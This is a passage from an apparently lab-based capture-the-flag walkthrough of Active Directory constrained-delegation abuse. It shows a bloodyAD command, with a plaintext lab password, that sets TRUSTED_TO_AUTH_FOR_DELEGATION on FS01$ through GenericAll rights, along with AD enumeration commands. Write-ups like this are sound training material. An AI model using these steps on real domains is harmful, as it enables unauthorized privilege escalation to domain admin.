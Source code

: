 We have **SeEnableDelegationPrivilege** means we have the permissions to enable computer and user accounts to be trusted for delegation.

## Shell as Ryan.Cooper (DA)

### Constrained Delegation

To do this we must first enable **TrustedToAuthForDelegation.**

Presently it is set to False.

```powershell
Get-ADComputer -properties * -filter *
```

![image.png](/assets/images/Redelegate_VL/image%2028.png)

We can set it to TRUE using bloodyAD.

```bash
bloodyAD -u 'Helen.Frost' -p 'aashwin10!' --host 'dc.redelegate.vl' -d 'redelegate.vl' add uac 'FS01$' -f 'TRUSTED_TO_AUTH_FOR_DELEGATION'
```

![image.png](/assets/images/Redelegate_VL/image%2029.png)

We can do that because H**elen.Frost** has **genericAll** on **FS01$.**

Rechecking it.

```powershell
Get-ADComputer -properties * -filter *
```

![image.png](/assets/images/Redelegate_VL/image%2030.png)
